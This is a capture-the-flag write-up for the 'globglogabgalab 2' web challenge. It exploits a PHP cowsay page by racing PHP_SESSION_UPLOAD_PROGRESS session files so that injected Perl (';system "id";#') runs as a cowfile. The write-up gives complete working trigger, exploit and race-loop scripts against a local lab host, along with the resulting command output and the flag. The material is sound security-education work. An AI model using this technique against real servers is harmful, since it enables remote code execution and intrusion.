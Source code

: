# globglogabgalab 2

## Write-up

- Since it is mentioned that this challenge is nearly identical to the last one, we can go ahead and check out the source code of `/cowsay.php` :

```php
<?php

error_reporting(0);

$output = null;

if (isset($_GET['message']) && is_string($_GET['message'])) {
  $regex = "/^[0-9a-zA-Z\/_\.]+$/";
  $cowacter = (isset($_GET['cowacter']) && is_string($_GET['cowacter'])) ? $_GET['cowacter'] : "default";
  $message = $_GET['message'];

  if (!preg_match($regex, $cowacter)
      || !preg_match($regex, $message)) {
    $output = "No";
  } else {
    $output = shell_exec("/usr/games/cowsay -f ${cowacter} ${message}");
  }

} else {
  highlight_file(__FILE__);
  exit;
}

?>

<!DOCTYPE html>
<html>
  <head>
    <title>Globglogabgalab</title>
  </head>
  <body>
    <pre><?= htmlspecialchars($output) ?></pre>
  </body>
</html>
```

- We can notice that a regex check has been added for `cowacter` and `message`, and it basically only allows the following characters : digits (0-9), lowercase letters (a-z), uppercase letters (A-Z), and `/_.`

- This makes it way harder to get command execution in `shell_exec("/usr/games/cowsay -f ${cowacter} ${message}")`

- Let's dig more into the `cowsay` command

- Command usage :

```man
cowsay [-e eye_string] [-f cowfile]  [-h]  [-l]  [-n]  [-T tongue_string] [-W column] [-bdgpstwy]
```

- From the man page :

```man
COWFILE FORMAT
       A cowfile is made up of a simple block  of  perl(1)  code,
       which assigns a picture of a cow to the variable $the_cow.
       Should you wish to customize the eyes or the tongue of the
       cow,  then  the  variables  $eyes and $tongue may be used.
       The trail leading up to the cow's message balloon is  com‐
       posed  of the character(s) in the $thoughts variable.  Any
       backslashes must be reduplicated to prevent interpolation.
       The  name  of a cowfile should end with .cow, otherwise it
       is assumed not to be a cowfile.   Also,  at-signs  (``@'')
       must be backslashed because that is what Perl 5 expects.
```

- That means that the cowfile is actually just a piece of `perl` code, and since we have control over `cowacter`, the task is to provide a perl file that has valid perl code to execute system commands

- But since we can't upload files to the server, how can we find a file that has such valid perl code ?

- The answer is [`php_session_upload_progress`](https://www.exploit-db.com/docs/50157) !

- As you can read on that paper, PHP will create a session file when you make a multipart POST request that has the `PHP_SESSION_UPLOAD_PROGRESS` post variable set while uploading a dummy file, but immediately removes the session file when the transfer completes : we have a race condition !

- And what's interesting about this race condition is that the session file will contain whatever value the `PHP_SESSION_UPLOAD_PROGRESS` variable holds, for example if it's set to `TEST`, here's an example of what the session file would look like :

```txt
upload_progress_TEST|a:5:{s:10:"start_time";i:1633103555;s:14:"content_length";i:3212778;s:15:"bytes_processed";i:5238;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:4:"file";s:4:"name";s:11:"random-file";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1633103555;s:15:"bytes_processed";i:5238;}}}
```

- An idea we can have is to inject perl code in the `PHP_SESSION_UPLOAD_PROGRESS` variable so that when we're exploiting the race condition and successfully manage to load the session file as a cowfile, the perl code gets executed

- By setting `PHP_SESSION_UPLOAD_PROGRESS` to `;system "id";#`, the content of the session file is considered valid perl code (the `#` comments out the rest of the serialized php data) :

```perl
upload_progress_;system "id";#|a:5:{s:10:"start_time";i:1633103555;s:14:"content_length";i:3212778;s:15:"bytes_processed";i:5238;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:4:"file";s:4:"name";s:11:"random-file";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1633103555;s:15:"bytes_processed";i:5238;}}}
```

- Let's start by writing some code that will trigger the creation of the session file ([trigger.py](trigger.py)) :

```python
import requests
from sys import argv

URL = "http://127.0.0.1:3007/cowsay.php"
UPLOAD_FILE = "/tmp/random-file"
PHPSESSID = "chenx3n"
SIZE = 4 * 1024**2 # 4MB

s = requests.Session()

def generate_randfile(size):
    with open("/dev/urandom", "rb") as f:
        data = f.read(size)
    with open(UPLOAD_FILE, "wb") as f:
        f.write(data)

def run(command):
    with open(UPLOAD_FILE, "rb") as f:
        # random 4MB file to be uploaded
        files = {"file": f}
        # PHPSESSID cookie, since it's set to "chenx3n", the session file will end up being "/tmp/sess_chenx3n"
        cookies = {"PHPSESSID": PHPSESSID}
        # inject perl code in PHP_SESSION_UPLOAD_PROGRESS post variable
        data = {"PHP_SESSION_UPLOAD_PROGRESS": f';system "{command}";#'}
        # trigger session file creation
        s.post(url=URL, files=files, data=data, cookies=cookies)

if __name__ == "__main__":
    cmd = argv[1] if len(argv) > 1 else "id;ls;./flag.runme"
    # generate a random 4MB file so that we have a sufficient time window before the session file is deleted on the server
    generate_randfile(SIZE)
    run(cmd)
```

- Then let's write exploit code that will actually try and load the session file ([xpl.py](xpl.py)) :

```python
import requests

URL = "http://127.0.0.1:3007/cowsay.php"
PHPSESSID = "chenx3n"

s = requests.Session()

def cowsay(cowacter, message):
    params = {"cowacter": cowacter, "message": message}
    return s.get(url=URL, params=params)

if __name__ == "__main__":
    cowacter = f"/tmp/sess_{PHPSESSID}"
    message = "kek"
    r = cowsay(cowacter, message)
    print(r.text)
```

- Now to combine all of this, we need to write a small shell script that will run both of the previous scripts in a while loop until we can read "shellmates" from the `flag.runme` output ([solve.sh](solve.sh)) :

```sh
while ! (echo "$output" | grep "shellmates"); do
  ./trigger.py &
  output="$(./xpl.py)"
done

echo "$output"
```

- After a few seconds of running `./solve.sh`, we can read the flag :

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Globglogabgalab</title>
  </head>
  <body>
    <pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
cowsay.php
flag.runme
index.php
shellmates{Ooh_h4-h4-Ha_mMh_$PleNDId_s1MPly_d3L1ciouS}
 _____
&lt; kek &gt;
 -----
</pre>
  </body>
</html>
```

## Flag

`shellmates{Ooh_h4-h4-Ha_mMh_$PleNDId_s1MPly_d3L1ciouS}`
